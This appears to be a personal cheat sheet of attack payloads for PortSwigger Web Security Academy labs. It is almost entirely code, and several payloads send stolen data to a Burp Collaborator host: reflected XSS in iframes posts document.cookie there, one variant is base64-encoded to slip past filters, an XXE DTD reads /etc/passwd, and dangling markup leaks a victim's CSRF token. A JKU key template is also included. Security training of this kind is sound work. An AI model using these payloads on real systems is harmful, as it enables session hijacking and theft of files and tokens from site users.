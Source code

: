 Simple Reflected XSS in iFrame:

`<iframe src="https://<VICTIM_SITE>.web-security-academy.net/?find=%22-alert(1)}//">`

---

Steal cookie:
- can be used in xss, web cache poisoning 

```JavaScript
<script>
fetch('https://<YOUR_BURP_COLLAB>.burpcollaborator.net', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

Oneliner:
`<script>fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net',{method: 'POST',mode: 'no-cors',body:document.cookie});</script>`

Or

```js
var i = new Image();i.src="//<YOUR_COLLAB_ID>.burpcollaborator.net?q="+document.cookie;document.body.appendChild(i);
```

Above in iframe:
```html
<iframe src="https://<LAB_ID>.web-security-academy.net/?find=%22-var i = new Image();i.src="//<YOUR_COLLAB_ID>.burpcollaborator.net?q="+document.cookie;document.body.appendChild(i);">
```

B64 encode the js and include in iframe for character restriction bypass:

```html
<iframe src="https://<LAB_ID>.web-security-academy.net/?find=test%22-eval(atob('dmFyIGkgPSBuZXcgSW1hZ2UoKTtpLnNyYz0iLy9iZ3ZueTd4N3JiZ3p0c3RmaGV1czlrZDB4cjNtcmIuYnVycGNvbGxhYm9yYXRvci5uZXQ/cT0iK2RvY3VtZW50LmNvb2tpZTtkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKGkpOw=='))//">
```

---

XXE dtd file:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://<YOUR_BURP_COLLAB>.burpcollaborator.net/?x=%file;'>">
%eval;
%exfil;
```

Access in app by finding an xxe vuln and using:
```xml
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://<YOUR_EXPLOIT_SERVER>.web-security-academy.net/test.dtd"> %xxe;]>
```

---

Script used in "*Reflected XSS protected by CSP, with dangling markup attack*" to get the victim's CSRF token

```js
<script>
location='https://<VICTIM_SITE>.web-security-academy.net/email?email=%22%3E%3Ctable%20background=%27//<YOUR_BURP_COLLAB>.burpcollaborator.net?';
</script> 
```

Take that csrf token and put it into a csrf generated request for changing email. Put that code into the exploit server and send to victim. 

---
JKU 
```json
{ "keys": [ { "kty": "RSA", "e": "AQAB", "kid": "<your-kid>", "n": "<your-n>" } ] }
```
---
